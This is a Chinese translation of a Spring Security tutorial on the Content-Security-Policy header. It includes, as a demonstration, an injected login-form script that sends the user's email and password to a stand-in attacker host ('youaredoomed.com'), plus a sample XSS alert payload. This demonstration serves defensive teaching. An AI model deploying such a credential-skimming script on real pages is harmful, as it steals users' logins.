




# [内容安全策略与 Spring Security](https://www.baeldung.com/spring-security-csp)

Spring Security

1. 概述
    跨站脚本（XSS）攻击在最普遍的网络攻击前十名中始终名列前茅。当 Web 服务器在未经验证或编码的情况下处理用户的恶意输入并将其渲染到页面上时，就会发生 XSS 攻击。与 XSS 攻击类似，代码注入和点击劫持也会通过窃取用户数据和冒充用户对 Web 应用程序造成严重破坏。
    在本教程中，让我们学习如何使用内容安全策略（Content-Security-Policy）头在基于 Spring Security 的 Web 应用程序中减轻代码注入风险。

2. 内容安全策略
    内容安全策略（CSP）是一种 HTTP 响应头，可以显著减少[现代浏览器](https://caniuse.com/?search=Content-Security-Policy)中的代码注入攻击，如 [XSS](https://www.baeldung.com/spring-prevent-xss)、[点击劫持](https://owasp.org/www-community/attacks/Clickjacking)等。
    Web 服务器通过 Content-Security-Policy 头指定一个浏览器可以渲染的资源白名单。这些资源可以是浏览器渲染的任何内容，例如 CSS、JavaScript、图像等。
    此头的语法是：
    `Content-Security-Policy: <directive>; <directive>; <directive> ; ...`
    此外，我们可以将此策略设置为 HTML 页面 `<meta>` 标签的一部分：
    `<meta http-equiv="Content-Security-Policy" content="<directive>;<directive>;<directive>; ...">>`
    此外，每个指令都包含一个带有多个值的键。可以有多个指令，每个指令用分号（;）分隔：
    `Content-Security-Policy: script-src 'self' https://baeldung.com; style-src 'self';`
    在这种情况下，我们有两个指令（script-src 和 style-src），而 script-src 指令有两个值（‘self’ 和 <https://baeldung.com>）。

3. 漏洞演示
    现在，让我们看一个 XSS 和代码注入漏洞可能多么严重的示例。

    1. 登录表单
        通常，我们在 Web 应用程序中会话超时时将用户重定向到登录页面。此外，标准的登录表单具有用户名/密码字段和一个提交按钮：

        ```html
        <span> 会话超时。请登录。</span>
        <form id="login" action="/login">
            <input type="email" class="form-control" id="email">
            <input type="password" class="form-control" id="password">
            <button type="submit">登录</button>
        </form>
        ```

    2. 代码注入
        用户可以在提供用户输入时通过表单字段注入可疑代码。例如，假设一个文本框在注册表单中接受用户名。
        用户可以输入 `<script>alert(“this is not expected”)</script>` 而不是用户名并提交表单。随后，当表单显示用户名时，它会执行该脚本（在这种情况下会弹出一个警告消息）。该脚本甚至可以加载外部脚本，造成更严重的危害。
        同样，假设我们的表单字段验证不足。再次，用户利用这一点并将恶意的 JavaScript 代码注入到 DOM（文档对象模型）中：

        ```html
        <span> 会话超时。请登录。</span>
        <form id="login" action="/login">
            <input type="email" class="form-control" id="email">
            <input type="password" class="form-control" id="password">
            <button type="submit">登录</button> 
        </form>
        <script>
            let form= document.forms.login;
            form.action="https://youaredoomed.com:9090/collect?u="+document.getElementById('email').value
            +"&p="+document.getElementById('password').value;
        </script>
        ```

        这种注入的 JavaScript 代码会在点击登录按钮时将用户重定向到恶意网站。
        当不知情的用户提交表单时，他会连同自己的凭据一起被重定向到 <https://youaredoomed.com。>

    3. 演示
        让我们看看这个漏洞的实际效果。
        通常，会话超时后，服务器会将用户重定向到登录页面以输入其凭据。但是，注入的恶意代码会将用户连同其凭据一起重定向到意外的网站：

        [观看视频](https://www.baeldung.com/wp-content/uploads/2021/12/csp.mp4)

4. Spring Security
    在本节中，让我们讨论减轻这些代码注入漏洞的方法。

    1. HTML meta 标签
        在前面的示例中添加一个 Content-Security-Policy 头本可以阻止将表单提交到恶意服务器。因此，让我们使用 `<meta>` 标签添加此头并检查其行为：
        `<meta http-equiv="Content-Security-Policy" content="form-action 'self';">`
        添加上述 meta 标签可以防止浏览器将表单提交到其他源：

        

        即使 meta 标签可以减轻 XSS 和代码注入攻击，它们的功能也有限。例如，我们不能使用 meta 标签来报告 Content-Security-Policy 的违规行为。
        因此，让我们利用 S[pring Security](https://www.baeldung.com/security-spring) 的强大功能，通过设置 Content-Security-Policy 头来减轻这些风险。

    2. Maven 依赖
        首先，让我们将 Spring Security 和 Spring Web 依赖项添加到我们的 pom.xml 中：

        ```xml
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-security</artifactId>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>
        ```

    3. 配置
        接下来，让我们通过创建一个 SecurityFilterChain bean 来定义 Spring Security 配置：

        ```java
        @Configuration
        public class ContentSecurityPolicySecurityConfiguration {
            @Bean
            public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
                http.headers(Customizer.withDefaults())
                    .xssProtection(Customizer.withDefaults())
                    .contentSecurityPolicy(contentSecurityPolicyConfig -> contentSecurityPolicyConfig.policyDirectives("form-action 'self'"));
                return http.build();
            }
        }
        ```

        在这里，我们声明了 contentSecurityPolicy 以将表单操作限制在同一源。

    4. Content-Security-Policy 响应头
        在必要的配置就位后，让我们验证 Spring Security 提供的安全性。为此，让我们打开浏览器的开发者工具（按 F12 或类似键），点击网络选项卡，然后打开 URL <http://localhost:8080：>

        

        现在，我们将填写表单并提交：

        

        在 Content-Security-Policy 头就位的情况下，浏览器会阻止提交请求，从而减轻凭据泄露的风险。
        同样，我们可以配置 Spring Security 以支持[不同的指令](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy)。例如，此代码指定浏览器只能从同一源加载脚本：
        `.contentSecurityPolicy("script-src 'self'");`
        同样，我们可以指示浏览器仅从同一源和 somecdn.css.com 下载 CSS：
        `.contentSecurityPolicy("style-src 'self' somecdn.css.com");`
        此外，我们可以在 Content-Security-Policy 头中组合任意数量的指令。例如，为了限制 CSS、JS 和表单操作，我们可以指定：
        `.contentSecurityPolicy("style-src 'self' somecdn.css.com; script-src 'self'; form-action 'self'")`

    5. 报告
        除了命令浏览器阻止恶意内容外，服务器还可以要求浏览器发送被阻止内容的报告。因此，让我们将 report-uri 指令与其他指令结合使用，以便在内容被阻止时浏览器发送 POST 请求。
        浏览器会将以下内容发布到 report-uri 中定义的 URL：

        ```json
        {
            "csp-report": {
                "blocked-uri": "",
                "document-uri": "",
                "original-policy": "",
                "referrer": "",
                "violated-directive": ""
            }
        }
        ```

        因此，我们需要定义一个 API 来接收浏览器发送的此违规报告，并为说明和清晰起见记录请求。
        我们应该注意，尽管 report-uri 指令已被 [report-to](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/report-to) 取代，但大多数浏览器目前不[支持 report-to](https://caniuse.com/?search=report-to)。因此，我们将同时使用 report-uri 和 report-to 指令进行报告。
        首先，让我们更新我们的 Spring Security 配置：

        ```java
        String REPORT_TO = "{\"group\":\"csp-violation-report\",\"max_age\":2592000,\"endpoints\":[{\"url\":\"https://localhost:8080/report\"}]}";
        http.csrf(AbstractHttpConfigurer::disable)
            .authorizeHttpRequests(authorizationManagerRequestMatcherRegistry -> authorizationManagerRequestMatcherRegistry.requestMatchers("/**").permitAll())
            .headers(httpSecurityHeadersConfigurer ->
                        httpSecurityHeadersConfigurer
                            .addHeaderWriter(new StaticHeadersWriter("Report-To", REPORT_TO))
                            .xssProtection(Customizer.withDefaults())
                            .contentSecurityPolicy(contentSecurityPolicyConfig ->
                                    contentSecurityPolicyConfig.policyDirectives("form-action 'self'; report-uri /report; report-to csp-violation-report")));
        ```

        我们首先定义了一个名为 csp-violation-report 的 report-to 组并关联了一个端点。接下来，作为 .contentSecurityPolicy 的一部分，我们使用此组名作为 report-to 指令的值。
        现在，当我们打开浏览器中的页面时，我们会看到：

        

        接下来，让我们填写表单并点击登录按钮。正如预期的那样，浏览器会阻止请求并发送报告。在服务器控制台中，我们有一条类似于以下内容的日志：

        ```log
        Report: {"csp-report":{"blocked-uri":"https://youaredoomed.com:9090/collect?u=jhon.doe@mail.com&p=password","document-uri":"https://localhost:8080/","original-policy":"form-action 'self'; report-uri https://localhost:8080/report","referrer":"","violated-directive":"form-action"}}
        ```

        这是格式化 JSON 后的相同报告：

        ```json
        {
            "csp-report": {
                "blocked-uri": "https://youaredoomed.com:9090/collect?u=jhon.doe@mail.com&p=password",
                "document-uri": "https://localhost:8080/",
                "original-policy": "form-action 'self'; report-uri https://localhost:8080/report",
                "referrer": "",
                "violated-directive": "form-action"
            }
        }
        ```

5. 结论
    在本文中，我们了解了如何保护我们的 Web 应用程序免受点击劫持、代码注入和 XSS 攻击。
    虽然无法完全防止这些攻击，但 Content-Security-Policy 头有助于减轻大部分此类攻击。值得注意的是，截至目前，大多数现代浏览器并未完全支持此头。因此，设计和构建具有坚实安全原则和标准的应用程序至关重要。
